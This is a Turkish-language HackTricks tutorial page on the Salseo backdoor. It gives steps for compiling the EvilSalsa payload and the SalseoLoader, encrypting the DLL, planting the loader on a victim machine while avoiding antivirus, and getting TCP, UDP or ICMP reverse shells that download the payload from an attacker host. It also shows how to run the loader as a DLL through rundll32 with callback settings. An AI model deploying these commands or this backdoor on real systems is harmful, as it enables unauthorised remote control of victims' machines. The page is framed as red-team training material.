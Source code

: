 # Salseo

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Binaries'i Derleme

Github'dan kaynak kodunu indirin ve **EvilSalsa** ve **SalseoLoader**'ı derleyin. Kodu derlemek için **Visual Studio**'nun yüklü olması gerekecek.

Bu projeleri, kullanacağınız Windows kutusunun mimarisi için derleyin (Eğer Windows x64 destekliyorsa, bu mimariler için derleyin).

**Visual Studio**'da **sol "Build" Sekmesi** içindeki **"Platform Target"** kısmından **mimariyi seçebilirsiniz.**

(\*\*Bu seçenekleri bulamazsanız **"Project Tab"**'ına tıklayın ve ardından **"\<Project Name> Properties"**'e tıklayın)

![](<../.gitbook/assets/image (132).png>)

Sonra, her iki projeyi de derleyin (Build -> Build Solution) (Kayıtlar içinde çalıştırılabilir dosyanın yolu görünecektir):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## Arka Kapıyı Hazırlama

Öncelikle, **EvilSalsa.dll**'yi kodlamanız gerekecek. Bunu yapmak için, **encrypterassembly.py** python betiğini kullanabilir veya **EncrypterAssembly** projesini derleyebilirsiniz:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Tamam, şimdi Salseo işlemlerini gerçekleştirmek için ihtiyacınız olan her şeye sahipsiniz: **encoded EvilDalsa.dll** ve **SalseoLoader'ın binary'si.**

**SalseoLoader.exe binary'sini makineye yükleyin. Hiçbir antivirüs tarafından tespit edilmemelidir...**

## **Arka kapıyı çalıştırma**

### **TCP ters shell almak (HTTP üzerinden encoded dll indirme)**

nc'yi ters shell dinleyicisi olarak başlatmayı ve encoded evilsalsa'yı sunmak için bir HTTP sunucusu kurmayı unutmayın.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **UDP ters shell almak (SMB üzerinden kodlanmış dll indirme)**

nc'yi ters shell dinleyicisi olarak başlatmayı ve kodlanmış evilsalsa'yı sunmak için bir SMB sunucusu kurmayı unutmayın.
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **ICMP ters shell almak (şifrelenmiş dll zaten kurbanın içinde)**

**Bu sefer ters shell almak için istemcide özel bir araca ihtiyacınız var. İndirin:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP Yanıtlarını Devre Dışı Bırak:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Müşteriyi çalıştır:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Kurbanın içinde, salseo şeyini çalıştıralım:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## SalseoLoader'ı ana fonksiyonu dışa aktaran DLL olarak derleme

SalseoLoader projesini Visual Studio ile açın.

### Ana fonksiyondan önce ekleyin: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### Bu proje için DllExport'ı yükleyin

#### **Araçlar** --> **NuGet Paket Yöneticisi** --> **Çözüm için NuGet Paketlerini Yönet...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **DllExport paketini arayın (Gözat sekmesini kullanarak) ve Yükle'ye basın (ve açılan pencereyi kabul edin)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Proje klasörünüzde **DllExport.bat** ve **DllExport\_Configure.bat** dosyaları belirdi.

### **U**ninstall DllExport

**Kaldır**'a basın (evet, garip ama bana güvenin, bu gerekli)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **Visual Studio'dan çıkın ve DllExport\_configure'ı çalıştırın**

Sadece **çıkın** Visual Studio'dan

Sonra, **SalseoLoader klasörünüze** gidin ve **DllExport\_Configure.bat**'ı çalıştırın.

**x64**'ü seçin (eğer x64 bir kutu içinde kullanacaksanız, benim durumum buydu), **System.Runtime.InteropServices**'i seçin ( **DllExport için Ad Alanı** içinde) ve **Uygula**'ya basın.

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **Projeyi tekrar Visual Studio ile açın**

**\[DllExport]** artık hata olarak işaretlenmemelidir.

![](<../.gitbook/assets/image (8) (1).png>)

### Çözümü derleyin

**Çıktı Türü = Sınıf Kütüphanesi**'ni seçin (Proje --> SalseoLoader Özellikleri --> Uygulama --> Çıktı türü = Sınıf Kütüphanesi)

![](<../.gitbook/assets/image (10) (1).png>)

**x64** **platformunu** seçin (Proje --> SalseoLoader Özellikleri --> Derleme --> Platform hedefi = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

Çözümü **derlemek** için: Derle --> Çözümü Derle (Çıktı konsolunda yeni DLL'nin yolu görünecektir)

### Üretilen Dll'yi test edin

Dll'yi test etmek istediğiniz yere kopyalayın ve yapıştırın.

Çalıştırın:
```
rundll32.exe SalseoLoader.dll,main
```
Eğer hata görünmüyorsa, muhtemelen işlevsel bir DLL'niz var!!

## DLL kullanarak bir shell alın

Bir **HTTP** **sunucusu** kullanmayı ve bir **nc** **dinleyicisi** ayarlamayı unutmayın.

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **Bize katılın** 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **bizi** **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
